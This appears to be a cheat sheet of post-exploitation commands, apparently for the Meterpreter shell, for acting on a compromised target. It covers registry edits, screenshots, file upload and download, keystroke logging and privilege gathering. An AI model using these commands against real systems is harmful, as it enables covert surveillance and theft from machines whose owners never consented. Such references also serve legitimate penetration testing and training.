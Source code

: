 ## Revert back to the original user you used to compromise the target.
```
rev2self
```

## Interact, create, delete, query, set, and much more in the target’s registry.
```
reg <command>
```

## Switch to a different screen based on who is logged in.
```
setdesktop <number>
```

## Take a screenshot of the target’s screen.
```
screenshot
```

## Upload a file to the target.
```
upload <filename>
```

## Download a file from the target.
```
download <filename>
```

## Start sniffing keystrokes on the remote target.
```
keyscan_start
```

## Dump the remote keys captured on the target.
```
keyscan_dump
```

## Stop sniffing keystrokes on the remote target.
```
keyscan_stop
```

## Get as many privileges as possible on the target.
```
getprivs
```
